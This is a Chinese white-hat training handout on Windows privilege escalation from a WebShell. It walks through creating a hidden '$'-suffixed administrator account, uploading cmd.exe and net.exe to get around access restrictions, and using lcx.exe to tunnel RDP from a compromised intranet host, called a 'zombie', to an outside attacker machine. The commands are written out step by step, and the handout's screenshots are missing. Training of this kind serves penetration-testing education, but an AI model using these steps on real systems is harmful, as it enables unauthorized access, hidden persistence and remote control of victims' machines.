

# 米斯特白帽培训讲义 漏洞篇 提权

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

提权，顾名思义就是提高自己在服务器中的权限，就比如在 Windows 中你本身登录的用户是 guest，通过提权后就变成超级管理员，拥有了管理 Windows 的所有权限。提权是黑客的专业名词，一般用于网站入侵和系统入侵。本讲义所讲的是基于 WebShell 的菜刀管理下提权。


## 基本 Dos 命令、常识

*   `whoami`：查看当前用户名，用于查看权限大小。
*   `ipconfig`：显示当前 TCP/IP 配置，用于查看 IP。
*   `net user`：查看当前系统的所有用户。
*   `net user <用户名> <用户密码> /add`：创建用户。
*   `net localgroup administrators <用户名> /add`：将用户加入`administrators`用户组。
*   远程连接默认端口：3389。

下面拿菜刀中的 Shell 演示一遍这几个命令。

首先是`whoami`，可以看到`administrator`，应该是管理员。


然后是`ipconfig`，我们可以看到`192.168.175.129`，这是内网的 IP。


然后是`net user`：


知道这些用户之后，我们需要创建自己的用户`mst`。创建后再执行`net user`，可以看到创建成功：


接下来我们创建一个名为`mst$`的用户：


可以看到它并没有显示在用户列表中，之后我们再执行`net user mst$`：


它又是确实存在的，这就是隐藏用户的一个小技巧。

之后我们把`mst$`添加到管理员组中，并且查看它的信息，我们发现它成功刚添加到了管理员组中。


需要远程连接的时候，输入刚刚创建的用户名和密码就可以了。

## 突破限制

假如说我们在实际情况中看到了`[Err]拒绝访问`：


那我们可以找到自己电脑上的`cmd.exe`，然后上传上去。比如上传路径如下：


我们就可以执行`setp <路径>\cmd.exe`：


我们再来看各种命令：




`net user`还是拒绝访问的，我们用老方法，找到自己电脑中的`net.exe`，然后传上去。之后执行`<路径>\net.exe user`：


可以看到突破了限制。

## 端口转发

在提权过程中，我们经常碰到这样的情况：


我们可以看到 WebShell 的主机处于内网下，内网的意思就是说，它能连接别人，但别人不能连接它，就跟连接路由器的个人电脑差不多。

那么这种情况下，我们就需要用到端口转发工具`lcx.exe`，除此之外，还需要一台拥有外网 IP 的主机。这里我们把内网的主机叫做肉鸡，独立 IP 主机叫做本机。

将`lcx.exe`上传至本机和肉鸡之后，首先确定本机的 IP 为`119.90.140.191`：


然后我们在本机执行：

```
lcx.exe -listen 51 3388
```


这条命令的意思就是说，监听本机的 51 和 3388 端口，并将两个端口互相转发，端口 51 的入境流量发给端口 3388，反之亦然。其中 51 是用于肉鸡连接的端口。3388 是用于我们的远程连接客户端连接的端口，为了避免与本机的远程连接服务冲突，选择了 3388。大家可以自行选择其他未占用端口。

然后我们在肉鸡上执行：

```
lcx.exe -slave 119.90.140.191 51 127.0.0.1 3389
```


这条命令连接肉鸡的 3389 端口，和本机的 51 端口，并互相转发。

之后，我们在本机或其他主机上使用远程连接客户端，连接`119.90.140.191:3388`，可以看到`lcx`中显示了转发的信息。


远程连接客户端的封包会发给主机的`lcx`，之后会发给肉鸡的`lcx`，之后会发给肉鸡的远程连接服务。响应封包会按原路返回。

等待一会儿之后，我们成功连接了肉鸡的远程桌面：

